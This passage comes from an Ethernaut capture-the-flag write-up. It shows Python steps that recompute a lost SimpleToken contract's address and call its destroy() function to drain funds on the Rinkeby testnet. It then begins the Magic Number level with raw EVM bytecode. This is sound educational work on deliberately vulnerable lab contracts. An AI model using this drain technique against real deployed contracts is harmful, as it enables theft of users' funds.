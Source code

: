 I would change a few things but if it ain't broke, don't fix it.

2. Then, we can plug in these values and find the address of that first ever SimpleToken deployment:

```python
first_simpletoken_contract_address = mk_contract_address(recovery.address, 1)
```

3. Connect to this contract and call the `destroy()` function, sending the funds to my address.

```python
simpletoken.destroy(acc.address, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x8f6213e0626f9f592ef4be898c9bbbe08e1782425ab844602925c57359af7fa1

1. Check that we have actually drained the contract address.

```python
balance_assertion = simpletoken.balance() == 0
print(f"The balance of SimpleToken is zero: {balance_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x81b43555a6325d320d659ccf655e73431e3c70dd531c0db40dd34311bcd46553
***

## Magic Number

### Objectives

To solve this level, you only need to provide the Ethernaut with a Solver, a contract that responds to whatIsTheMeaningOfLife() with the right number.

### Solution

There's several ways to approach this problem, but in a nutshell, all that's needed is a contract that can return the number 42 by using _at most_ 10 opcodes in its _runtime_ code.

I find that [this article](https://medium.com/coinmonks/ethernaut-lvl-19-magicnumber-walkthrough-how-to-deploy-contracts-using-raw-assembly-opcodes-c50edb0f71a2) details the solution much better than I could. But as a way to document my understanding of this problem and its solution, I'll try to write in a few steps what has to be done to successfully solve it:

1. We must code a contract using either raw bytecode or Yul (as I did in [my solution](#how-i-did-it)):

```
33600055600a6011600039600a6000f3fe602a60005260206000f3
```

Which is the raw bytecode representing the following opcodes:

```
CALLER PUSH1 0x0 SSTORE PUSH1 0xA PUSH1 0x11 PUSH1 0x0 CODECOPY PUSH1 0xA PUSH1 0x0 RETURN INVALID PUSH1 0x2A PUSH1 0x0 MSTORE PUSH1 0x20 PUSH1 0x0 RETURN 
```

